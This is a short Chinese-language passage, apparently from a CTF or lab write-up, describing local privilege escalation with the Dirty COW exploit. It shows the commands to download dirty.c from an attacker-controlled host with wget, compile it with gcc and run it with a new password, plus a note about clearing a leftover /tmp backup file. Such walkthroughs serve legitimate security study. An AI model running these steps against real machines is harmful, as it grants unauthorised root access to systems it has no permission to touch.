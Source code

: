 可用脏牛提权



上传.c文件

```
wget 192.168.1.15:8000/dirty.c
```

![image-20250406212309376](./assets/image-20250406212309376.png)

编译运行

```
gcc -pthread dirty.c -o dirty -lcrypt
./dirty 123456
```

![image-20250406212400810](./assets/image-20250406212400810.png)提示以及有一个备份文件在/tmp目录下，可能是作者留下的线索，删除，然后重新执行

```
./dirty 123456
```
